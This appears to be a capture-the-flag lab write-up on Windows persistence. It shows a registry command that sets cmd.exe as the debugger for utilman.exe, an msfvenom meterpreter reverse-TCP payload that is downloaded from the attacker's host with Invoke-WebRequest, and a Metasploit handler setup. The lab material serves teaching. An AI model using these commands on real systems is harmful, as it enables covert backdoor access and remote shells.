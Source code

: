 ![](https://i.imgur.com/299wh4y.png)

**Backdooring RDP**

An example would be using Metasploit to backdoor OSK (On-screen keyboard).

Metasploit sticky_keys module can be used:

![](https://i.imgur.com/0klqDqF.png)

Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard. A CMD should be prompted.

![](https://i.imgur.com/3I7jaCp.png)

The same results can be achieved by editing the registry using the command:

`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f`

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.106.222 LPORT=9002 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"`

```ps1

PS C:\Users\tryhackme> cd .\Downloads\
PS C:\Users\tryhackme\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\tryhackme\Downloads\backdoor.exe"
PS C:\Users\tryhackme\Downloads> ls


    Directory: C:\Users\tryhackme\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:32 PM          73802 backdoor.exe
```

```
kali@kali:~/CTFs/tryhackme/Persistence$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:9001
```
